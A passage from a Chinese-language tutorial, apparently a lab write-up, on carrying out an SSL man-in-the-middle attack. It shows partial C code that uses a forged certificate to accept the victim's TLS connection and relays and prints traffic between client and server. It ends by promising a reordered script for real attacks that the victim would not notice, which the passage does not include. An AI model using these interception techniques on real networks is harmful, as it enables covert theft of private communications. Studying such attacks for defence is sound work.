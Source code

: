至此，伪造证书的任务完成了，然后我们调用SSL_to_client_init函数，

```
  SSL* SSL_to_client_init(int socket, X509 *cert, EVP_PKEY *key) {
  ……
  // 生成一个新的CTX，并设置它使用的证书和密钥
  ctx = SSL_CTX_new(SSLv23_server_method());
  SSL_CTX_use_certificate(ctx, cert);
  SSL_CTX_use_PrivateKey(ctx, key);
  SSL_CTX_check_private_key(ctx);
  ……
  // 新建一个SSL连接
  SSL *ssl = SSL_new(ctx);
  ……
  }
```

最后，调用SSL_accept函数完成与主机B的SSL连接。至此，SSL中间人攻击完成，接下来就可以抓取数据了。

7. 转移数据并输出
我们将抓取数据的代码封装到transfer函数中。该函数主要是使用系统的select函数同时监听服务器和客户端，并使用SSL_read和SSL_write不断的在两个信道之间传递数据，并将数据输出到控制台。

```
  int transfer(SSL *ssl_to_client, SSL *ssl_to_server) {
  ……
  fd_set fd_read;
  while (1) {
  ……
  FD_ZERO(&fd_read);
  FD_SET(socket_to_server, &fd_read);
  FD_SET(socket_to_client, &fd_read);
  select(max, &fd_read, NULL, NULL, &timeout);
  ……
  if (FD_ISSET(socket_to_client, &fd_read)) {
  ……
  SSL_read(ssl_to_client, buffer, sizeof(buffer));
  SSL_write(ssl_to_server, buffer, ret);
  ……
  }
  if (FD_ISSET(socket_to_server, &fd_read)) {
  ……
  SSL_read(ssl_to_server, buffer, sizeof(buffer));
  SSL_write(ssl_to_client, buffer, ret);
  ……
  }
  }
  }
```
##### 实验汇总
以上的步骤为实验设计时进行的步骤，而实际攻击过程的步骤与上面讨论的有所不同，读者应该也会发现，上面的步骤会使得主机B断网，B会对攻击有所察觉，这在实际的攻击过程中是不应该出现的。

假设我们的C程序编译的可执行文件的文件名为SSL_man_in_middle，则经过调整顺序，实际攻击的脚本如下：
